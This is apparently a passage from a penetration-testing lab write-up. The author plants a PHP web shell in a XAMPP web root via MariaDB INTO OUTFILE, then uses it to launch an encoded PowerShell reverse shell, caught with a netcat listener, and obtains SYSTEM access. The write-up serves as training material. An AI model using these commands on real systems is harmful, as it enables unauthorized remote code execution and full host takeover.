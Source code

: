```
```

We have our default databases, as well as a test db which turns out to be completely empty, and the phpmyadmin db which also turns out to be mostly empty. So, there must be something else we can do. Running through my notes I got the idea to see if we can write to system files through MySQL. If we can write a php shell into the website root directory through MySQL, we can simply navigate there and get code execution. Let's try it!

```
MariaDB [(none)]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\xampp\htdocs\shell.php';
Query OK, 1 row affected (0.059 sec)
```

First I ran this command, however I got a 404 going to `http://inlanefreight.htb/shell.php`. So I ran it again but this time got this output:

```
MariaDB [(none)]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\xampp\htdocs\shell.php';
ERROR 1086 (HY000): File 'C:xampphtdocsshell.php' already exists
```

I forgot to account for the unescaped backslashes `\`, and the file was saving as `C:xampphtdocsshell.php`. This is a simple fix wit the following:

```
MariaDB [(none)]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php';
Query OK, 1 row affected (0.058 sec)
```

Then I went to `http://inlanefreight.htb/shell.php` and it worked!

!(shell)[/assets/imgs/phpshell.png]

I then used a neat little website called [revshells.com](revshells.com) and generated a nice little base64 encoded reverse shell for us.

![revshells](/assets/revshells.png)

I then made a listener with netcat and prepended our powershell shell to the end of our link.

`http://inlanefreight.htb/shell.php?c=powershell+-e+JABjAGwAaQBlAG4AdAAgAD0(...ommitted...)`

```
$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.246] from (UNKNOWN) [10.129.200.199] 49684

PS C:\xampp\htdocs> whoami
nt authority\system
PS C:\xampp\htdocs>
```

And boom! We're in but not only that, we are running as `nt authority\system`! No priv esc required!

